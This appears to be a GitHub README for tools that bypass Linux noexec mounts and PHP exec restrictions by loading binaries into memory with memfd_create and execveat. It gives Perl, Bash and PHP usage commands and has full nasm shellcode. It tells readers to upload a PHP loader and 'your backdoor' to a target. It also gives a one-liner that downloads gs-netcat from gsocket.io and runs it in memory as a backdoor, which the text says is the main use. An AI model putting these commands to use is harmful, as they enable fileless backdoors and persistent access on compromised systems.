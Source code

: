 ## Circumvent the `noexec` mount flag on Linux and execute abritrary binaries

This if useful on a Linux system when all writeable locations are mounted with `-o noexec` (including /dev/shm) or to escape PHP's 'exec' restrictions.

Use _one_ of the 3 scripts (perl, bash, php):

- The binary does not need to have +x
- The binary can reside on a noexec-partition
- Mostly the binary can be piped directly from the Internet into the memory (and executed there)
- Works as non-root user
- The PHP variant also circumvents PHP's "exec" restrictions.
- It injects shellcode into the running process and calls [memfd_create(2)](https://man7.org/linux/man-pages/man2/memfd_create.2.html) and [execveat(2)](https://man7.org/linux/man-pages/man2/execveat.2.html) to load a binary from a noexec-partition (or directly from the Internet).
- BASH and PHP do not support SYSCALLS. We advanced an old trick.

Read the [circumventing the noexec Article](https://iq.thc.org/bypassing-noexec-and-executing-arbitrary-binaries) for more....

`TIME_STYLE` and `-lah` are used as an example to pass through environment parameters and command line options. 

### nasm example:
```sh
nasm -f elf64 memexec-bash.nasm -o memexec-bash.o
ld memexec-bash.o -o memexec-bash
cat /bin/ls | ./memexec-bash -- /bin/ls
```

### PERL example:
```sh
source memexec-perl.sh
cat /bin/ls | TIME_STYLE=+%s memexec -lah
```
This was golfed by the fine people on Mastodon ([@acut3hack](https://@acut3hack@infosec.exchange), [@addision](https://@addison@nothing-ever.works), [@ilv](https://@ilv@infosec.exchange))

### BASH example (by [@messede-degod](https://github.com/messede-degod)):
```sh
source memexec-bash.sh
cat /bin/ls | TIME_STYLE=+%s memexec -- -lah
```

### The PHP variant also circumvents ["shell_exec" restrictions](https://www.cyberciti.biz/faq/linux-unix-apache-lighttpd-phpini-disable-functions/).

1. Upload `memexec.php` and `egg` (your backdoor) onto the target
2. Call `curl -SsfL https://target/memexec.php` to execute `egg` and bypassing noexec restrictions

(This is my way of saying "hey. how are to?" to my old [team-teso](https://en.wikipedia.org/wiki/TESO_(Austrian_hacker_group)) colleague and long time PHP developer [@i0nic](https://x.com/i0n1c))

---

The educated reader understands that this is mostly used to pipe a backdoor from the Internet directly into memory, even when execution is prohobited by `noexec` or there is no writeable directory:
```shell
curl -SsfL https://gsocket.io/bin/gs-netcat_mini-linux-x86_64 | GS_ARGS="-ilD -s ChangeMe" perl '-efor(319,279){($f=syscall$_,$",1)>0&&last};open($o,">&=".$f);print$o(<STDIN>);exec{"/proc/$$/fd/$f"}X,@ARGV' -- "$@"
```
---

For the addicts, here is the nasm of the shellcode (memfd_create, copy loop & execveat):
```nasm
; nasm -felf64 memexec.nasm && ld memexec.o &&  ./a.out

global _start
section .text

_start:
    push    0x00676765  ; "egg"
    mov     rax, 0x13f
    mov     rdi, rsp    ; arg 1: name [egg]
    xor     rsi, rsi    ; arg 2: 0 = no MFD_CLOEXEC
    syscall
    mov     r8, rax

    mov     rax, 2
    mov     rdi, rsp    ; arg 1: name [egg]
    xor     rsi, rsi    ; arg 2: 0 = O_RDONLY
    syscall
    mov     r9, rax

loop:
    sub     rsp, 0x400
    xor     rax, rax    ; arg 0: read_NR
    mov     rdi, r9     ; arg 1: FD [egg]
    mov     rsi, rsp    ; arg 2: buffer
    mov     edx, 0x400  ; arg 3: length
    syscall

    cmp     rax, 0x00
    jle     done        ; EOF

    mov     rdx, rax    ; arg 3: length (from read()) 
    mov     eax, 0x01   ; arg 0: write_NR
    mov     rdi, r8     ; arg 1: FD [memfd]
    syscall
    jmp     loop
done:

    mov     rax, 322    ; arg 0: execveat_NR
    mov     rdi, r8     ; arg 1: memfd
    push    0x00        ; an empty string
    mov     rsi, rsp    ; arg 2: path (empty string)
    mov     rdx, rsp    ; arg 3: ARGV points to empty string
    xor     rcx, rcx    ; arg 4: ENV
    mov     r8, 0x1000  ; arg 5: AT_EMPTY_PATH
    xor     r9, r9      ; arg 6: must be clean
    xor     r10, r10    ; arg 7: must be clean
    syscall

    mov     rax, 60
    xor     rdi, rdi
    syscall
```
